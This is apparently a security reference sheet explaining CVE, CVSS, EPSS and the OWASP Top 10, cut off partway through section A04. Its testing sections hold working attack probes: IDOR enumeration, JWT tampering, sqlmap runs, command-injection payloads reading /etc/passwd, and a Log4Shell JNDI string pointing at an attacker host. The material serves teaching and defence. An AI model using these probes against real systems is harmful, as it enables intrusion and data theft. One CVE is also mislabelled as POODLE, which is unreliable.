

# CVE, CVSS & OWASP Scoring — Quick Reference

> **Volume 12 · Career Checklists & Reference Material**  
> Last updated: 2026-09-05 | Covers CVE · CVSS v3.1 · CVSS v4.0 · EPSS · OWASP Top 10 (2021) · API Top 10 (2023) · Mobile Top 10 · CWE · Bug Bounty Ratings · Prioritization Frameworks

---

## Table of Contents

1. [CVE System](#1-cve-system)
2. [CVSS v3.1 Complete Breakdown](#2-cvss-v31-complete-breakdown)
3. [CVSS v4.0](#3-cvss-v40)
4. [EPSS — Exploit Prediction Scoring System](#4-epss--exploit-prediction-scoring-system)
5. [OWASP Top 10 2021](#5-owasp-top-10-2021)
6. [OWASP API Security Top 10 2023](#6-owasp-api-security-top-10-2023)
7. [OWASP Mobile Top 10](#7-owasp-mobile-top-10)
8. [CWE Common Weakness Enumeration](#8-cwe--common-weakness-enumeration)
9. [Bug Bounty Severity Ratings](#9-bug-bounty-severity-ratings)
10. [Vulnerability Prioritization Frameworks](#10-vulnerability-prioritization-frameworks)
11. [CVSS Scoring Flow Mermaid Diagram](#11-cvss-scoring-flow--mermaid-diagram)
12. [OWASP Top 10 2021 vs 2017 Comparison](#12-owasp-top-10-2021-vs-2017-comparison)

---

## 1. CVE System

### 1.1 What Is a CVE?

A **Common Vulnerabilities and Exposures (CVE)** entry is a publicly disclosed identifier for a specific cybersecurity vulnerability. Each CVE provides a standardized reference that allows security professionals, vendors, researchers, and defenders to communicate about the same vulnerability without ambiguity.

CVE was launched in **1999** by MITRE Corporation, funded by the U.S. Department of Homeland Security (DHS) through CISA (Cybersecurity and Infrastructure Security Agency).

**Key properties of a CVE:**
- Uniquely identifies a single vulnerability or exposure
- Vendor-neutral and product-neutral identifier
- Used universally across scanners, advisories, patch management systems
- Does **not** contain scoring — that is handled by CVSS

### 1.2 Who Assigns CVEs?

| Organization | Role |
|---|---|
| **MITRE Corporation** | CVE Program root authority and editor |
| **CNAs (CVE Numbering Authorities)** | Organizations authorized to assign CVE IDs within their scope |
| **CISA** | U.S. government overseer and funder of the CVE program |
| **NVD (NIST)** | Enriches CVE entries with CVSS scores, CWE, CPE data |

**CVE Numbering Authorities (CNAs)** include:
- Major vendors: Microsoft, Apple, Google, Oracle, Red Hat, VMware, Cisco
- Bug bounty platforms: HackerOne, Bugcrowd
- Open-source projects: GitHub, Apache
- National CERTs: CERT/CC, JPCERT/CC, BSI
- Security researchers (limited scope)

As of 2026, there are over **400 CNAs** globally.

### 1.3 CVE ID Format

```
CVE-YEAR-NUMBER
```

| Component | Description | Example |
|---|---|---|
| `CVE` | Literal prefix | `CVE` |
| `YEAR` | Year the CVE was assigned (not necessarily when discovered) | `2021` |
| `NUMBER` | Sequential identifier (4+ digits, can exceed 4) | `44228` |

**Real-world Examples:**
```
CVE-2021-44228   Log4Shell - Apache Log4j Remote Code Execution
CVE-2017-0144    EternalBlue - MS17-010, used in WannaCry ransomware
CVE-2014-0160    Heartbleed - OpenSSL memory disclosure bug
CVE-2021-34527   PrintNightmare - Windows Print Spooler privilege escalation
CVE-2023-44487   HTTP/2 Rapid Reset Attack - DDoS amplification
CVE-2022-30190   Follina - Microsoft Support Diagnostic Tool RCE
CVE-2021-26855   ProxyLogon - Microsoft Exchange Server SSRF+RCE
```

### 1.4 NVD — National Vulnerability Database

The **National Vulnerability Database (NVD)** is maintained by NIST (National Institute of Standards and Technology) at `https://nvd.nist.gov`.

NVD enriches raw CVE entries with:
- **CVSS scores** (Base, Temporal, Environmental)
- **CWE classifications** — root cause weakness type
- **CPE** (Common Platform Enumeration) — affected products
- **References** — vendor advisories, PoC code, patches
- **Vulnerability analysis** — additional description and context

> **Important:** NVD and CVE are **not** the same. MITRE's CVE list provides the IDs; NVD provides the analysis and scoring on top of those IDs.

### 1.5 CVE vs CWE vs CPE — Key Differences

| Acronym | Stands For | Purpose | Example |
|---|---|---|---|
| **CVE** | Common Vulnerabilities and Exposures | Identifies a specific vulnerability instance | CVE-2021-44228 (Log4Shell) |
| **CWE** | Common Weakness Enumeration | Categorizes the *type* of weakness (root cause) | CWE-502: Deserialization of Untrusted Data |
| **CPE** | Common Platform Enumeration | Identifies affected software/hardware products | `cpe:2.3:a:apache:log4j:2.14.1:*:*:*:*:*:*:*` |

**Analogy to understand the difference:**
- **CVE** = a specific car crash incident report (this exact crash, this date, this location)
- **CWE** = the *type* of road hazard that caused crashes (black ice, blind corner)
- **CPE** = the make/model/year of vehicle involved in the crash

**Relationship Example — Log4Shell:**
```
CVE-2021-44228 (Log4Shell — specific vulnerability)
  |
  +-- CWE-502 (Deserialization of Untrusted Data — root cause type)
  |
  +-- CPE: cpe:2.3:a:apache:log4j:2.0-beta9 through 2.14.1
```

### 1.6 How to Look Up CVEs

| Resource | URL | Best For |
|---|---|---|
| **NVD** | `https://nvd.nist.gov/vuln/search` | Full analysis, CVSS scores, CPE data |
| **MITRE CVE** | `https://cve.mitre.org` | Official CVE list, raw entries |
| **Exploit-DB** | `https://exploit-db.com` | PoC and exploit code linked to CVEs |
| **GitHub Advisories** | `https://github.com/advisories` | Open-source package vulnerabilities |
| **Vendor Advisories** | Vendor-specific portals | Official patches and workarounds |
| **Vulhub** | `https://vulhub.org` | Docker-based CVE lab environments |
| **CISA KEV** | `https://www.cisa.gov/known-exploited-vulnerabilities-catalog` | Actively exploited CVEs |
| **OSV.dev** | `https://osv.dev` | Open-source vulnerability database |
| **Shodan CVEs** | `https://cvedb.shodan.io` | CVE details with internet exposure data |
| **PacketStorm** | `https://packetstormsecurity.com` | Exploits, PoC code, advisories |

**CLI lookup using NVD API v2:**
```bash
# Search by exact CVE ID
curl "https://services.nvd.nist.gov/rest/json/cves/2.0?cveId=CVE-2021-44228" | jq .

# Search by keyword
curl "https://services.nvd.nist.gov/rest/json/cves/2.0?keywordSearch=log4j" \
  | jq '.vulnerabilities[].cve.id'

# Get critical CVEs from the last 30 days
curl "https://services.nvd.nist.gov/rest/json/cves/2.0?cvssV3Severity=CRITICAL" | jq .

# Search CVEs for a specific CPE
curl "https://services.nvd.nist.gov/rest/json/cves/2.0?cpeName=cpe:2.3:a:apache:log4j:*" | jq .
```

---

## 2. CVSS v3.1 Complete Breakdown

### 2.1 Overview

**CVSS (Common Vulnerability Scoring System) v3.1** is the industry-standard framework for communicating the severity of software vulnerabilities. Published and maintained by FIRST (Forum of Incident Response and Security Teams).

CVSS v3.1 consists of three metric groups that can be used independently or combined:

| Group | Purpose | Score Impact |
|---|---|---|
| **Base Score** | Intrinsic vulnerability characteristics | 0.0 – 10.0 |
| **Temporal Score** | Current exploit maturity and remediation | Adjusts Base downward |
| **Environmental Score** | Organization-specific customization | Can raise or lower Base |

### 2.2 Base Score Metrics — Attack Vector (AV)

Describes the network context in which exploitation is possible. Lower AV = higher score (more accessible = more dangerous).

| Value | Code | Score Multiplier | Description |
|---|---|---|---|
| **Network** | `AV:N` | 0.85 | Exploitable remotely over the internet; no physical proximity required |
| **Adjacent** | `AV:A` | 0.62 | Requires access to the same network segment (LAN, Bluetooth, Wi-Fi, VPN) |
| **Local** | `AV:L` | 0.55 | Requires local system access (interactive login or script execution) |
| **Physical** | `AV:P` | 0.20 | Requires physical interaction with the device (USB, BIOS, hardware) |

**Examples:**
- `AV:N` — Log4Shell (any internet user can trigger)
- `AV:A` — ARP spoofing attack (requires LAN access)
- `AV:L` — Local privilege escalation via sudo misconfiguration
- `AV:P` — Bootloader bypass via physical USB boot

### 2.3 Attack Complexity (AC)

Conditions beyond attacker control that must exist for exploitation to succeed.

| Value | Code | Score Multiplier | Description |
|---|---|---|---|
| **Low** | `AC:L` | 0.77 | No special conditions; attack can be reliably repeated at will |
| **High** | `AC:H` | 0.44 | Specific conditions required: race condition, specific user state, or complex prerequisites |

**Examples:**
- `AC:L` — SQL injection (just send the payload, works every time)
- `AC:H` — Race condition in file write (requires precise timing)

### 2.4 Privileges Required (PR)

The level of privileges an attacker must have *before* exploiting the vulnerability.

| Value | Code | Score Weight (S:U) | Score Weight (S:C) | Description |
|---|---|---|---|---|
| **None** | `PR:N` | 0.85 | 0.85 | No authentication or access required at all |
| **Low** | `PR:L` | 0.62 | 0.68 | Basic user-level account required (standard authenticated user) |
| **High** | `PR:H` | 0.27 | 0.50 | Administrative or root-level access required to exploit |

Note: `PR` weights differ based on Scope because privilege escalation within the same system (S:U) is more restrictive than cross-system impact (S:C).

### 2.5 User Interaction (UI)

Whether a separate human must take an action for exploitation to succeed.

| Value | Code | Score Multiplier | Description |
|---|---|---|---|
| **None** | `UI:N` | 0.85 | Attacker can exploit without any victim participation |
| **Required** | `UI:R` | 0.62 | The victim must perform a specific action (click link, open file, visit page) |

**Examples:**
- `UI:N` — Remote code execution via network service (no user needed)
- `UI:R` — Reflected XSS (victim must click a malicious URL)

### 2.6 Scope (S)

Whether successful exploitation can impact resources managed by another security authority beyond the vulnerable component.

| Value | Code | Description |
|---|---|---|
| **Unchanged** | `S:U` | Impact limited to the vulnerable component only |
| **Changed** | `S:C` | Impact extends beyond the vulnerable component to other components or systems |

**Examples:**
- `S:U` — SQL injection reads data from the same database
- `S:C` — Container escape → attacker gains access to host OS (different security authority)
- `S:C` — XSS in admin panel → attacker controls victim's browser (different security context)

### 2.7 Impact Metrics — Confidentiality, Integrity, Availability

Each of the three impact metrics (C, I, A) uses the same three-level scale:

| Value | Code | Score Weight | Description |
|---|---|---|---|
| **None** | `C:N` / `I:N` / `A:N` | 0.00 | No impact to this property |
| **Low** | `C:L` / `I:L` / `A:L` | 0.22 | Partial or limited impact; attacker has limited access or control |
| **High** | `C:H` / `I:H` / `A:H` | 0.56 | Total or complete loss — full disclosure, full modification, or full denial |

**Confidentiality Impact:**
- `C:N` — No information exposed
- `C:L` — Some data readable but not all (e.g., read one user record)
- `C:H` — Full database dump, all credentials, complete data breach

**Integrity Impact:**
- `I:N` — No data modification possible
- `I:L` — Attacker can modify some data but with limited scope
- `I:H` — Arbitrary code execution, full data modification, database destruction

**Availability Impact:**
- `A:N` — Service remains fully available
- `A:L` — Degraded performance or partial interruption
- `A:H` — Complete denial of service, crash, or full resource exhaustion

### 2.8 CVSS Score Ranges and Severity Levels

| Score Range | Severity | Response Expectation |
|---|---|---|
| **0.0** | None | No remediation required |
| **0.1 – 3.9** | Low | Patch in next scheduled maintenance window |
| **4.0 – 6.9** | Medium | Patch within 30–60 days based on context |
| **7.0 – 8.9** | High | Patch within 7–14 days; prioritize over normal cycle |
| **9.0 – 10.0** | Critical | Emergency patching required; patch immediately |

### 2.9 Temporal Score Metrics

Temporal metrics adjust the Base Score to reflect the *current state* of exploitation and remediation. They can only lower the Base Score (or leave it unchanged).

#### Exploit Code Maturity (E)

| Value | Code | Multiplier | Description |
|---|---|---|---|
| **Not Defined** | `E:X` | 1.00 | Ignored in calculation (default) |
| **Unproven** | `E:U` | 0.91 | No known working exploit exists |
| **Proof-of-Concept** | `E:P` | 0.94 | Public PoC exists but requires significant customization |
| **Functional** | `E:F` | 0.97 | Working exploit available publicly (GitHub, ExploitDB) |
| **High** | `E:H` | 1.00 | Automated, widely available exploit (Metasploit module, worm) |

#### Remediation Level (RL)

| Value | Code | Multiplier | Description |
|---|---|---|---|
| **Not Defined** | `RL:X` | 1.00 | Ignored in calculation |
| **Official Fix** | `RL:O` | 0.95 | Vendor has released an official patch |
| **Temporary Fix** | `RL:T` | 0.96 | Hotfix or temporary patch available |
| **Workaround** | `RL:W` | 0.97 | Unofficial mitigation or configuration change available |
| **Unavailable** | `RL:U` | 1.00 | No fix or workaround exists (zero-day) |

#### Report Confidence (RC)

| Value | Code | Multiplier | Description |
|---|---|---|---|
| **Not Defined** | `RC:X` | 1.00 | Ignored in calculation |
| **Unknown** | `RC:U` | 0.92 | Unconfirmed, single-source or anonymous report |
| **Reasonable** | `RC:R` | 0.96 | Multiple independent sources corroborate the vulnerability |
| **Confirmed** | `RC:C` | 1.00 | Vendor-confirmed, reproducible proof, or in-the-wild confirmation |

### 2.10 Environmental Score

The Environmental Score allows organizations to tailor CVSS to reflect their specific environment and asset criticality.

**Modified Base Metrics** — Any Base metric can be overridden:
`MAV` / `MAC` / `MPR` / `MUI` / `MS` / `MC` / `MI` / `MA`

**Security Requirements** — Weight the importance of CIA to your organization:

| Metric | Code | Low | Medium | High |
|---|---|---|---|---|
| Confidentiality Requirement | `CR` | 0.50 | 1.00 | 1.50 |
| Integrity Requirement | `IR` | 0.50 | 1.00 | 1.50 |
| Availability Requirement | `AR` | 0.50 | 1.00 | 1.50 |

**Practical example:**
- A public static website: `CR:L` (confidentiality is not critical)
- A medical record system: `CR:H` / `IR:H` (breach is catastrophic)
- A real-time trading system: `AR:H` (downtime = revenue loss)

### 2.11 Worked Example — CVE-2021-44228 (Log4Shell)

**Vulnerability Background:**  
Apache Log4j2 JNDI injection — unauthenticated Remote Code Execution via a crafted `${jndi:ldap://attacker.com/x}` string logged by the application.

**Step-by-Step CVSS v3.1 Scoring:**

| Metric | Selected Value | Technical Justification |
|---|---|---|
| Attack Vector | `AV:N` — Network | Any internet-connected user can trigger it via HTTP headers, form fields, URLs |
| Attack Complexity | `AC:L` — Low | No special conditions; just send the JNDI string and it reliably executes |
| Privileges Required | `PR:N` — None | No account or authentication required on the target |
| User Interaction | `UI:N` — None | Server-side execution; no victim action needed |
| Scope | `S:C` — Changed | Attacker achieves RCE on the host OS (different security authority than Log4j itself) |
| Confidentiality | `C:H` — High | Full system access = full credential and data exposure |
| Integrity | `I:H` — High | Arbitrary code execution = complete integrity loss |
| Availability | `A:H` — High | Ransomware, wiper, or service termination possible |

**Final CVSS v3.1 Base Vector:**
```
CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:C/C:H/I:H/A:H
```

**Base Score: 10.0 (Critical)**

**With Temporal metrics (weaponized exploit + official patch):**
```
CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:C/C:H/I:H/A:H/E:H/RL:O/RC:C
```
**Temporal Score: 10.0** (already maximum, temporal cannot raise it further)

### 2.12 CVSS Vector String Format — Full Anatomy

```
CVSS:3.1/AV:[N|A|L|P]/AC:[L|H]/PR:[N|L|H]/UI:[N|R]/S:[U|C]/C:[N|L|H]/I:[N|L|H]/A:[N|L|H]
```

Full vector including Temporal and Environmental groups:
```
CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:H/E:F/RL:O/RC:C/CR:H/IR:H/AR:M/MAV:N/MAC:L/MPR:N/MUI:N/MS:U/MC:H/MI:H/MA:H
```

| Token | Value | Meaning |
|---|---|---|
| `CVSS:3.1` | Version | CVSS version 3.1 specification |
| `AV:N` | Network | Remotely exploitable over internet |
| `AC:L` | Low | No special attack conditions required |
| `PR:N` | None | No credentials or privileges required |
| `UI:N` | None | No victim interaction required |
| `S:U` | Unchanged | Impact stays within vulnerable component |
| `C:H` | High | Complete confidentiality compromise |
| `I:H` | High | Complete integrity compromise |
| `A:H` | High | Complete availability compromise |

---

## 3. CVSS v4.0

### 3.1 Overview and Release

CVSS v4.0 was officially released by FIRST in **November 2023**, replacing v3.1 as the current specification. It introduces significant structural changes to address real-world scoring limitations.

### 3.2 What Changed from v3.1

| Area | v3.1 Behavior | v4.0 Behavior |
|---|---|---|
| **Metric groups** | Base / Temporal / Environmental | Base / Threat / Environmental / Supplemental |
| **Score naming** | Single score label | Two-part: `CVSS-B`, `CVSS-BT`, `CVSS-BE`, `CVSS-BTE` |
| **Attack Requirements** | Not present | New `AT` metric (None/Present) |
| **Scope** | Single `S` metric | Split: Vulnerable System + Subsequent System impacts |
| **Safety impact** | Not modeled | New Supplemental `S` metric |
| **Recovery** | Not modeled | New Supplemental `R` metric (Automatic/User/Irrecoverable) |
| **Automatable** | Not present | New Supplemental `AU` metric (No/Yes) |
| **Value Density** | Not present | New Supplemental `V` metric (Diffuse/Concentrated) |
| **Exploit Maturity** | Temporal group | Moved to **Threat** group |

### 3.3 New CVSS v4.0 Base Metrics

**Exploitability Metrics (new additions):**

| Metric | Code | Values | Description |
|---|---|---|---|
| Attack Requirements | `AT` | None / Present | Prerequisites independent of attacker (config state, target population condition) |
| User Interaction | `UI` | None / Passive / Active | Passive is new — victim's routine behavior triggers exploit without specific action |

**Vulnerable System Impact (replaces old single-scope C/I/A):**

| Metric | Code | Values |
|---|---|---|
| Vulnerable System Confidentiality | `VC` | None / Low / High |
| Vulnerable System Integrity | `VI` | None / Low / High |
| Vulnerable System Availability | `VA` | None / Low / High |

**Subsequent System Impact (entirely new — replaces Scope):**

| Metric | Code | Values | Description |
|---|---|---|---|
| Subsequent System Confidentiality | `SC` | None / Low / High | Impact on systems other than the vulnerable one |
| Subsequent System Integrity | `SI` | None / Low / High / Safety | Can include Safety impact |
| Subsequent System Availability | `SA` | None / Low / High / Safety | Can include Safety impact |

### 3.4 CVSS v4.0 Threat Metrics

Replaces the old Temporal group. Focuses solely on exploitation intelligence:

| Metric | Code | Values |
|---|---|---|
| Exploit Maturity | `E` | Unreported / Proof-of-Concept / Attacked / Not Defined |

The simplified values make it easier to apply consistently without nuanced judgment calls.

### 3.5 CVSS v4.0 Supplemental Metrics

Supplemental metrics are **informational only** — they do not change the numeric score but provide context:

| Metric | Code | Values | Purpose |
|---|---|---|---|
| Safety | `S` | Negligible / Present | Physical safety risk (ICS, medical devices, vehicles) |
| Automatable | `AU` | No / Yes | Can exploit be automated at scale (wormable?) |
| Recovery | `R` | Automatic / User / Irrecoverable | How easily systems recover post-exploitation |
| Value Density | `V` | Diffuse / Concentrated | How much attacker gains per compromised system |
| Response Effort | `RE` | Low / Moderate / High | Effort required to respond and remediate |
| Provider Urgency | `U` | Clear / Green / Amber / Red | Vendor's own urgency signal |

### 3.6 CVSS v4.0 Vector Example

**Log4Shell in CVSS v4.0:**
```
CVSS:4.0/AV:N/AC:L/AT:N/PR:N/UI:N/VC:H/VI:H/VA:H/SC:H/SI:H/SA:H
```
**Score: 10.0 (Critical)**

**A phishing-delivered macro malware (requires user to enable macros):**
```
CVSS:4.0/AV:N/AC:L/AT:N/PR:N/UI:A/VC:H/VI:H/VA:H/SC:L/SI:L/SA:N
```

---

## 4. EPSS — Exploit Prediction Scoring System

### 4.1 What Is EPSS?

**EPSS (Exploit Prediction Scoring System)** is a machine-learning-based model developed by FIRST that predicts the **probability that a CVE will be exploited in the wild within the next 30 days**.

- Scores range from **0.0 to 1.0** (0% to 100% probability)
- Updated **daily** based on ingested threat intelligence feeds
- Maintained by FIRST at `https://www.first.org/epss/`
- Full API and bulk data available at `https://api.first.org/data/v1/epss`
- Covers all published CVEs (over 200,000 entries)

**EPSS inputs include:**
- Historical exploitation data from IDS/IPS telemetry
- Threat feeds and dark web data
- Vendor advisory metadata
- CVSS metrics
- PoC/exploit availability
- Timeline since CVE publication

### 4.2 EPSS vs CVSS — Key Differences

| Dimension | CVSS | EPSS |
|---|---|---|
| **What it measures** | Theoretical severity of the vulnerability | Empirical probability of exploitation |
| **Static or dynamic** | Static at time of scoring | Updated every 24 hours |
| **Timeframe** | Timeless (describes intrinsic risk) | 30-day exploitation probability window |
| **Useful for** | Reporting severity to stakeholders | Prioritizing what to patch first |
| **False positives** | High — many Critical vulns never exploited | Lower false positive rate for exploitation prediction |
| **Data source** | Technical vulnerability analysis | Real-world exploitation telemetry |
| **Best used when** | Describing a vulnerability's potential impact | Deciding which vulnerability to fix today |

**The key insight:** Research shows that only approximately **7% of all CVEs** are ever exploited in the wild. CVSS alone cannot distinguish this 7% from the remaining 93%.

### 4.3 Understanding EPSS Scores and Percentiles

| EPSS Score | Meaning | Action |
|---|---|---|
| 0.001 (0.1%) | Very unlikely to be exploited | Low priority |
| 0.01 (1%) | Unlikely but possible | Standard cycle |
| 0.05 (5%) | Elevated risk | Elevated priority |
| 0.10 (10%) | High exploitation likelihood | Urgent patching |
| 0.50 (50%) | Very likely to be exploited | Emergency patching |
| 0.90 (90%) | Near-certain exploitation in 30 days | Immediate action |

**Percentile context matters:** A raw score of 0.10 might be in the 95th percentile because the vast majority of CVEs score below 0.01.

### 4.4 How to Use EPSS Data in Practice

```bash
# Get EPSS score for a specific CVE
curl "https://api.first.org/data/v1/epss?cve=CVE-2021-44228" | jq .

# Get CVEs with EPSS score above 0.5 (50% exploitation probability)
curl "https://api.first.org/data/v1/epss?epss-gt=0.5&limit=100" | jq '.data[] | {cve, epss, percentile}'

# Get CVEs with EPSS above 0.1 sorted by score
curl "https://api.first.org/data/v1/epss?epss-gt=0.1&order=!epss" | jq '.data[:20]'

# Download full EPSS dataset as gzipped CSV
curl "https://epss.cyentia.com/epss_scores-$(date +%Y-%m-%d).csv.gz" -o epss_today.csv.gz
gunzip epss_today.csv.gz

# Enrich a list of CVEs with EPSS scores
while IFS= read -r cve; do
  result=$(curl -s "https://api.first.org/data/v1/epss?cve=$cve")
  epss=$(echo "$result" | jq -r '.data[0].epss // "N/A"')
  percentile=$(echo "$result" | jq -r '.data[0].percentile // "N/A"')
  echo "$cve | EPSS: $epss | Percentile: $percentile"
done < my_cve_list.txt
```

**Recommended EPSS + CVSS Priority Matrix:**

| CVSS Severity | EPSS < 0.01 | EPSS 0.01–0.1 | EPSS > 0.1 |
|---|---|---|---|
| **Critical (9.0–10.0)** | Patch within 30 days | Patch within 7 days | **PATCH NOW — Emergency** |
| **High (7.0–8.9)** | Normal 30-day cycle | Patch within 14 days | Patch within 7 days |
| **Medium (4.0–6.9)** | Normal 60-day cycle | Normal 30-day cycle | Patch within 14 days |
| **Low (0.1–3.9)** | Backlog | Backlog | Review and assess |

---

## 5. OWASP Top 10 (2021)

> The **OWASP Top 10** is the definitive list of the most critical web application security risks. The 2021 edition was a significant update from 2017 with four new categories.

---

### A01:2021 — Broken Access Control

**Description:**
Access control enforces policy to prevent users from acting outside their intended permissions. In 2021, this moved from #5 to #1 — found in **94% of tested applications**. Failures lead to unauthorized information disclosure, modification, or destruction of all data, or performing business functions outside of user limits.

**Common Vulnerability Patterns:**
- Insecure Direct Object Reference (IDOR) — changing ID in URL to access others' data
- Missing function-level access control — regular users calling admin-only APIs
- CORS misconfiguration — allowing unauthorized cross-origin API access
- Horizontal privilege escalation — accessing other users' accounts with same privilege level
- Vertical privilege escalation — escalating to higher privilege than assigned
- JWT token manipulation — modifying payload to gain elevated access

**Real-World Example:**
An online banking application uses sequential account IDs. User logs in with account `10045`. By modifying the URL from `/account/10045/balance` to `/account/10044/balance`, the attacker reads another customer's account balance without authentication failure.

**CVE Examples:**
- `CVE-2020-1472` — Zerologon: privilege escalation to Domain Administrator with zero credentials
- `CVE-2021-22005` — VMware vCenter Server arbitrary file upload leading to full takeover

**Testing Approach:**
```bash
# Test IDOR by modifying object IDs
# In Burp Suite: Intruder -> sniper on ID parameter
for id in $(seq 1000 1100); do
  response=$(curl -s "https://target.com/api/v1/user/$id" \
    -H "Authorization: Bearer $USER_TOKEN")
  if ! echo "$response" | grep -q "403\|Unauthorized\|Forbidden"; then
    echo "Potential IDOR at ID: $id"
    echo "$response" | jq .
  fi
done

# Test function-level access control
curl -H "Authorization: Bearer $USER_TOKEN" \
  "https://target.com/api/admin/users" -v

# Test JWT privilege escalation
# Decode JWT, change role to admin, re-encode with same/no signature
python3 -c "
import base64, json
token = 'YOUR.JWT.TOKEN'
payload = json.loads(base64.b64decode(token.split('.')[1] + '=='))
payload['role'] = 'admin'
print(json.dumps(payload))
"
```

**Remediation:**
- Implement deny-by-default access control policy
- Enforce server-side ownership and authorization checks on every request
- Use non-guessable resource identifiers (UUIDs/GUIDs instead of sequential integers)
- Log access control failures with sufficient detail for anomaly detection
- Rate limit API access to detect enumeration attacks
- Implement CORS policies explicitly — never use wildcard `*` for credentialed requests

---

### A02:2021 — Cryptographic Failures

**Description:**
Formerly named "Sensitive Data Exposure" in 2017, the 2021 edition refocused on the underlying cause: failures in cryptography. This includes transmitting data in cleartext, using deprecated or weak cryptographic algorithms, improper key management, and failure to enforce encryption.

**Common Vulnerability Patterns:**
- Transmitting sensitive data in cleartext (HTTP instead of HTTPS)
- Using weak or deprecated algorithms: MD5, SHA-1, DES, 3DES, RC4
- Hardcoded cryptographic keys or use of default keys
- Missing certificate validation (accepting self-signed or expired certs)
- Storing passwords using reversible or non-salted hashing
- Insufficient entropy in random number generation

**Real-World Example:**
A fintech startup stores user passwords as unsalted MD5 hashes in their database. After a breach, an attacker downloads the database and runs it through a GPU cluster with rainbow tables — cracking 70% of all user passwords within 4 hours.

**CVE Examples:**
- `CVE-2014-0160` — Heartbleed: OpenSSL reads private memory including private keys due to buffer over-read
- `CVE-2016-2107` — OpenSSL POODLE: padding oracle attack on AES-CBC in TLS

**Testing Approach:**
```bash
# Comprehensive TLS/SSL configuration analysis
testssl.sh --full target.com
sslyze --regular target.com

# Check for weak cipher suites
nmap --script ssl-enum-ciphers -p 443 target.com | grep -E "weak|EXPORT|RC4|DES|MD5"

# Check security headers for HSTS
curl -sI https://target.com | grep -i "strict-transport"

# Test for HTTP downgrade (HSTS bypass)
curl -I http://target.com  # Should redirect to HTTPS immediately

# Check certificate validity and configuration
openssl s_client -connect target.com:443 2>/dev/null | openssl x509 -noout -text \
  | grep -E "Subject|Issuer|Not After|Signature Algorithm"
```

**Remediation:**
- Enforce TLS 1.2 minimum; prefer TLS 1.3 for all communications
- Disable SSLv2, SSLv3, TLS 1.0, TLS 1.1 — all deprecated
- Use strong cipher suites: AES-256-GCM, ChaCha20-Poly1305
- Hash passwords with Argon2id (preferred), bcrypt, or scrypt — never MD5/SHA-1
- Implement HSTS with `includeSubDomains` and `preload`
- Encrypt sensitive data at rest with AES-256 and managed key rotation
- Use a secrets manager (HashiCorp Vault, AWS Secrets Manager) — never hardcode keys

---

### A03:2021 — Injection

**Description:**
Injection flaws occur when untrusted data is sent to an interpreter as part of a command or query. An attacker's hostile data tricks the interpreter into executing unintended commands or accessing data without proper authorization. In 2021, Cross-Site Scripting (XSS) was merged into this category.

**Types of Injection:**
- SQL Injection (SQLi) — database manipulation
- Cross-Site Scripting (XSS) — JavaScript injection into browser context
- OS Command Injection — shell command execution
- LDAP Injection — directory query manipulation
- XPath Injection — XML query manipulation
- Server-Side Template Injection (SSTI) — template engine code execution
- NoSQL Injection — MongoDB, CouchDB query manipulation
- HTTP Header Injection — CRLF injection

**Real-World Example:**
A login form constructs queries as: `SELECT * FROM users WHERE username='$user' AND password='$pass'`. An attacker submits `username=' OR 1=1 --` which transforms the query to always return true, granting access without knowing any password.

**CVE Examples:**
- `CVE-2012-1823` — PHP-FPM: argument injection via query string allows RCE without authentication
- `CVE-2017-12617` — Apache Tomcat: JSP file upload via PUT method allows RCE

**Testing Approach:**
```bash
# SQL Injection — automated scanning
sqlmap -u "https://target.com/products?id=1" --level=5 --risk=3 --dbs
sqlmap -u "https://target.com/login" --data="username=admin&password=test" --dbs

# XSS — automated detection
dalfox url "https://target.com/search?q=FUZZ"
dalfox file url_list.txt --worker 40

# Manual XSS payloads to try in every input field
# Basic: <script>alert(document.domain)</script>
# Event: 
# Template: {{7*7}} ${7*7} #{7*7}

# OS Command injection
for payload in "; id" "| id" "& id" "; cat /etc/passwd" "`id`"; do
  curl -s "https://target.com/ping?host=127.0.0.1$payload" | grep -i "uid\|root"
done

# SSTI detection
curl "https://target.com/greet?name={{7*7}}"  # Look for "49" in response
curl "https://target.com/greet?name=\${7*7}"  # Freemarker/Velocity
curl "https://target.com/greet?name=<%= 7*7 %>"  # ERB (Ruby)
```

**Remediation:**
- Use parameterized queries and prepared statements for all database interactions
- Apply input validation with strict allowlists (not denylists)
- Escape all user-supplied data appropriately for the output context
- Use ORMs with parameterized queries (SQLAlchemy, Hibernate, ActiveRecord)
- Implement Content Security Policy (CSP) to mitigate XSS impact
- Use a WAF as defense-in-depth (not as primary control)
- Apply least privilege to database accounts (SELECT only where possible)

---

### A04:2021 — Insecure Design

**Description:**
New in 2021, this category focuses on design flaws rather than implementation bugs. It represents a shift left in security — recognizing that many vulnerabilities stem from inadequate threat modeling, missing security requirements, or architectural decisions made without security consideration.

**Key Difference from Misconfiguration:**
Insecure Design = wrong architecture choices. Security Misconfiguration = correct design implemented incorrectly. You cannot patch your way out of an insecure design — it requires rearchitecting.

**Common Patterns:**
- Missing rate limiting on sensitive operations (login, OTP, password reset)
- No account lockout allowing unlimited brute force
- Business logic flaws (skip payment step, change item price to negative)
